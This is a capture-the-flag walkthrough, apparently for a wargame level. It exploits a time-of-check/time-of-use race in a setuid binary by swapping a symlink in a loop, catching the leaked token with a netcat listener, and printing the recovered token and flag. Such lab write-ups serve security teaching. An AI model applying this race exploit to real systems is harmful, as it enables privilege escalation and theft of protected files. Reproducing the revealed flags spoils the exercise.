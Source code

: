 # First step

Some files as level08.  
```shell
$> ./level10
./level10 file host
        sends file to host if you have access to it

$> ./level10 token 0.0.0.0
You don't have access to token  
```

With Ghidra.

```c
[...]
[...] = access(argv[1], 4); 
[...]

// We need create some fake linked file. 
// because the executable check if file have access, if yes, it will continue
```

We also need a server to listen on port 6969.  
Becuase:

```shell
$> touch /tmp/test

$> ./level10 /tmp/test 0.0.0.0  
Connecting to 0.0.0.0:6969 .. Unable to connect to host 0.0.0.0
```

# Second step


I create a script to switch the linked file with the '/tmp/fake_ln' and '~/token'.

```shell
# fake_ln.sh
touch /tmp/something

while true;
do
    ln -fs /tmp/something /tmp/fake_ln;
    ln -fs ~/token /tmp/fake_ln;
done
```

```shell
$> scp -P 4242 ./fake_ln.sh scp://level10@192.168.64.2/../../../tmp/fake_ln.sh
```

I run a listen server with Netcat and launch the script in the same time.

```shell
# Terminal 1
# (-l: listen mode)
# (-k: force stay connected)
$> nc -l -k 6969
# Get with terminal3
.*( )*.  
.*( )*.  
.*( )*.  
woupa2yuojeeaaed06riuj63c  


# Terminal 2
$> /tmp/fake_ln.sh


# Terminal 3
$> ./level10 /tmp/fake_ln 0.0.0.0
You don't have access to /tmp/fake_ln

$> ./level10 /tmp/fake_ln 0.0.0.0
You don't have access to /tmp/fake_ln

[...]

$> ./level10 /tmp/fake_ln 0.0.0.0
Connecting to 0.0.0.0:6969 .. Connected!
Sending file .. wrote file!

$> su flag10
Don't forget to launch getflag !

$> getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```